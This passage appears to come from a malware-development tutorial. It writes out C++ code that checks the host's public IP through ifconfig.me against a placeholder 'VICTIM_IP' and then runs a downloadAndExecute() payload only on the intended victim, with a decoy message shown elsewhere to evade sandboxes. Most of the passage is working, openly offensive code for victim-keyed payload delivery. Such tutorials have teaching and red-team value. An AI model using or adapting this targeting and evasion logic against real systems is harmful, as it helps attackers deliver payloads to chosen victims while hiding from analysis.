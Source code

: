 Integrating This into our Code

This translates to an actual function that looks so:

```cpp
BOOL checkIP() {   
 // Declare the Website URL that we would like to visit
    const char* websiteURL = "<https://ifconfig.me/ip>";   
 // Create an Internet Stream to access the website
    IStream* stream;   
 // Create a string variable where we will store the string data received from the website
    string s;   
  // Create a space in memory where we will store our IP Address
    char buff[35];   
    unsigned long bytesRead;   
 // Open an Internet stream to the remote website
    URLOpenBlockingStreamA(0, websiteURL, &stream, 0, 0);   
 // While data is being sent from the webserver, write it to memory
    while (true) {       
        stream->Read(buff, 35, &bytesRead);       
        if (0U == bytesRead) {           
            break;       
        }       
        s.append(buff, bytesRead);   
    }   
  // Compare if the string is equal to the targeted victim's IP. If true, return the check is successful. Else, fail the check.
    if (s == "VICTIM_IP") {       
        return TRUE;   
    }   
    else {       
    return FALSE;   
    }
} 
```

This code can be broken down into the following steps:

1. Declare the required variables mentioned above.
2. Open an internet stream with the URLOpenBlockingStreamA function to ifconfig.me/ip to check the current IP Address.
3. Write the data stream returned from the URLOpenBlockingStreamA function to the memory. 
4. Append the data from the memory buffer to a string variable.
5. Check and see if the string data is equal to the Victim's IP Address.
6. If True, return TRUE; if False, return FALSE.  
    

Now we must modify our main function so that we can leverage our newly created function:

```cpp
int main(){
    if(checkIP() == TRUE){
        downloadAndExecute();
        return 0;
    }
    else {
        cout << "HTTP/418 - I'm a Teapot!";
        return 0;
    }
} 
```

